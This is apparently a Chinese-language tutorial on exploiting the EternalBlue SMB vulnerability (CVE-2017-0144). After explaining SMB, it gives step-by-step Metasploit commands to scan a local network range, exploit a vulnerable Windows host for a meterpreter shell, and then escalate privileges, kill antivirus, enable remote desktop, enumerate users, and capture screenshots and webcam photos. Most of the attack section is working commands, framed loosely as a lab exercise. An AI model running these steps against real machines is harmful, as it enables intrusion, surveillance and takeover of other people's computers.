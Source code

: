 # **一、 环境准备**

1 一台Windows电脑

（可以使用虚拟机代替）

### 2 Metasploit任意平台

  可以是Windows版，可以是kali自带版

# **二、** CVE-2017-0144 介绍

1.何为CVE-2017-0144？

​    CVE-2017-0144 既 永恒之蓝最早爆发于2017年4月14日晚，是一种利用Windows系统的SMB协议漏洞来获取系统的最高权限，以此来控制被入侵的计算机。甚至于2017年5月12日， 不法分子通过改造“永恒之蓝”制作了勒索病毒，使全世界大范围内遭受了勒索病毒，甚至波及到学校、大型企业、政府等机构，只能通过支付高额的赎金才能恢复出文件。

2.什么是SMB协议？

 SMB是一个协议服务器信息块，它是一种客户机/服务器、请求/响应协议，通过SMB协议可以在计算机间共享文件、打印机、命名管道等资源，电脑上的网上邻居就是靠SMB实现的；SMB协议工作在应用层和会话层，可以用在TCP/IP协议之上，SMB使用TCP139端口和TCP445端口。

3.SMB工作原理是什么？

   （1）：首先客户端发送一个SMB negport 请求数据报，，并列出它所支持的所有SMB的协议版本。服务器收到请求消息后响应请求，并列出希望使用的SMB协议版本。如果没有可以使用的协议版本则返回0XFFFFH，结束通信。

   （2）：协议确定后，客户端进程向服务器发起一个用户或共享的认证，这个过程是通过发送SessetupX请求数据包实现的。客户端发送一对用户名和密码或一个简单密码到服务器，然后通过服务器发送一个SessetupX应答数据包来允许或拒绝本次连接。

   （3）：当客户端和服务器完成了磋商和认证之后，它会发送一个Tcon或TconX SMB数据报并列出它想访问的网络资源的名称，之后会发送一个TconX应答数据报以表示此次连接是否接收或拒绝。

   （4）：连接到相应资源后，SMB客户端就能够通过open SMB打开一个文件，通过read SMB读取文件，通过write SMB写入文件，通过close SMB关闭文件。

# **三、原理**     永恒之蓝是在Windows的SMB服务处理SMB v1请求时发生的漏洞，这个漏洞导致攻击者在目标系统上可以执行任意代码。通过永恒之蓝漏洞会扫描开放445文件共享端口的Windows机器，无需用户任何操作，只要开机上网，不法分子就能在电脑和服务器中植入勒索软件、远程控制木马、虚拟货币挖矿机等恶意程序。

 

# **四、CVE-2017-0144 利用方法**

1  启动Metasploit

终端里输入 msfconsole

2 查询利用模块

终端里输入 search ms17_010

a![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641450314000/960ae38818084260be8eb69e589edba4.png)

3 使用探测模块

终端内输入  use auxiliary/scanner/smb/smb_ms17_010

4 设置探测范围

终端内输入  show options   

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641450314000/ab7ca3d4ba774677bc2a239c420349f7.png)

上图中我们可以看到是需要配置一个RHOSTS  

终端内输入  set rhosts  192.168.3.0/24  （设置扫描当前网段  可以通过 在终端内输入ip a 查看）

也可以设置范围 set rhosts 192.168.3.1-192.168.3.10

5 开始探测

终端内输入  run 执行探测

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641450314000/7df1f73ea464404091de9c13d885c139.png)

根据上图我们可以看到 192.168.3.8 这个IP的机器可能存在漏洞

6 开始漏洞利用

开始利用首先在终端里输入
search ms17_010

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641450314000/8bf107d057a34676984a5d5e8b9bae73.png)
使用 模块
use  exploit/windows/smb/ms17_010_eternalblue

7 配置利用模块

配置模块
show options   
配置靶机
set rhost 192.168.3.8  这里IP填第五步探测到的IP

8 执行攻击

在终端里输入  run


![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641450314000/8a0c81062f424c7682a329503a315313.png)

知道咱们看到 win  则攻击成功 拿到meterpreter 

 

9 后渗透操作

查看进程：ps
查看当前进程号：getpid
查看系统信息：sysinfo
查看目标机是否为虚拟机：run post/windows/gather/checkvm
查看完整网络设置：route
查看当前权限：getuid
自动提权：getsystem
关闭杀毒软件：run post/windows/manage/killav
启动远程桌面协议：run post/windows/manage/enable_rdp
列举当前登录的用户：run post/windows/gather/enum_logged_on_users
查看当前应用程序：run post/windows/gather/enum_applications
抓取目标机的屏幕截图：load espia ； screengrab
抓取摄像头的照片：webcam_snap
查看当前处于目标机的那个目录：pwd
查看当前目录：getlwd
 

 
